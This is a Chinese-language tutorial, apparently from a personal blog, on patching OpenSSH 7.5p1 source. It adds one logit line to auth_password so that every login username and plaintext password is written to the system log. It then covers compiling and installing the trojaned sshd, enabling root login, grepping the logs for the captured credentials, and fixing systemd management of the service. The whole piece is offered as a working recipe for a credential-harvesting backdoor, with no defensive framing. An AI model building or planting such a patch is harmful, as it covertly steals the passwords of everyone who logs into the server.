 # ssh日志记录登陆密码

# ssh记录登陆密码

了解到ssh自身不记录登陆的用户名密码

但我们可以通过修改ssh源码或者打补丁的方式来实现对远程登陆用户密码的记录

只需修改ssh源码或者打补丁重新编译，安装

即可获得一个新的ssh用户端

## 过程

### 1、准备环境

安装对应的openssh源码包

```sh
wget https://mirror.leaseweb.com/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz


# 各个版本源码下载
# https://mirror.leaseweb.com/pub/OpenBSD/OpenSSH/portable/
```

创建相应的安装配置路径

```sh
mkdir -p /opt/ssh7.5p1/conf
```

当然还要安装相应依赖，这一步关乎后面的编译是否成功

注意debian和centos的依赖包名还不一样

\#centos

```bash
yum install gcc zlib-devel openssl-devel pam-devel pam-krb5 krb5-devel krb5-libs -y
```

\#debian

```bash
apt-get install gcc zlib1g-dev  libssl1.0-dev -y  # centos指令已经优化，这个没有
```

### 2、修改源码

解压刚下载的源码包

```sh
tar -zxvf openssh-7.5p1.tar.gz
```

进入目录

```sh
cd openssh-7.5p1
```

对源码进行一些修改

增加在日志中添加登陆用户名密码的功能

```sh
vim auth-passwd.c
```

添加一段代码

```c
#找到函数auth_password，添加
logit("username: %s password: %s", authctxt->user, password);
```

![image-20230706154345300](ssh日志记录登陆密码.assets/image-20230706154345300.png)

### 3、编译安装

开始编译

```bash
./configure --prefix=/usr \
	--sysconfdir=/etc/ssh \
	--with-pam --with-zlib \
	--with-ssl-dir=/usr \
	--with-md5-passwords \
	--mandir=/usr/share/man \
	--with-kerberos5=/usr/lib64/libkrb5.so
```

> *#参数说明*
>
> --prefix=/usr \  #安装目录
> --sysconfdir=/etc/ssh \ #配置文件目录
> --with-pam --with-zlib \ # PAM headers not found 
> --with-ssl-dir=/usr \
> --with-md5-passwords \
> --mandir=/usr/share/man \
> --with-kerberos5=/usr/lib64/libkrb5.so  # (防止出现Unsupported option GSSAPIAuthentication 和 Unsupported option GSSAPICleanupCredentials)

在没有报错的情况下

进一步

```bash
make
make install
```

之后就可以启动使用

```sh
/opt/ssh7.5p1/sbin/sshd
```

默认22端口，记得先把原先ssh停掉



**注：ssh升级后，默认关闭root远程登录，如果需要，请打开5、如果无法登录，请修改/etc/pam.d/sshd**

### 4、登陆配置修改

按照前面设定的配置目录找到sshd_config

```sh
#修改配置文件
vim /opt/ssh7.5p1/conf/sshd_config
```

就跟正常改ssh配置文件操作一样，像允许远程用户登陆、修改端口

```perl
#修改端口
Port 1022
#允许root账号登陆
PermitRootLogin yes
```

### 5、日志查看

centos和debain日志位置不同

```sh
#centos
grep 'username:' /var/log/messages
```

```sh
#debian
grep 'username:' /var/log/auth.log
```

远程登陆一波

运行结果如下：

![image-20230706155010020](ssh日志记录登陆密码.assets/image-20230706155010020.png)

# systemctl命令无法管理sshd服务问题解决

## 解决方法

以下是我当前情况的解决方案，不代表所有类似情况都适用。

将源码安装包中 contrib/redhat/sshd.init 文件复制到 /etc/init.d/ 目录下并添加可执行权限。

```bash
cp contrib/redhat/sshd.init /etc/init.d/
chmod +x /etc/init.d/sshd.init
```

然后,使用该脚本启动sshd服务

```bash
/etc/init.d/sshd.init start
```

这时，/run/systemd/generator.late/ 目录下会产生一个名为 sshd.service的 systemd 服务配置文件。
将这个文件复制到 systemd 的服务配置文件目录下

```bash
cp /run/systemd/generator.late/sshd.service  /usr/lib/systemd/system/sshd.service
```

这时再通过systemctl命令操作sshd服务就正常了。
查看该自动生成的service配置文件设置可见，对应的启动、停止等命令都已经换成了对 sshd.init 脚本的操作，而不是原来的对 /usr/sbin/sshd 命令的操作。
文件内容如下：

```bash
# Automatically generated by systemd-sysv-generator

[Unit]
Documentation=man:systemd-sysv-generator(8)
SourcePath=/etc/rc.d/init.d/sshd.init
Description=SYSV: OpenSSH server daemon

[Service]
Type=forking
Restart=no
TimeoutSec=5min
IgnoreSIGPIPE=no
KillMode=process
GuessMainPID=no
RemainAfterExit=no
PIDFile=/var/run/sshd.pid
ExecStart=/etc/rc.d/init.d/sshd.init start
ExecStop=/etc/rc.d/init.d/sshd.init stop
ExecReload=/etc/rc.d/init.d/sshd.init reload
```

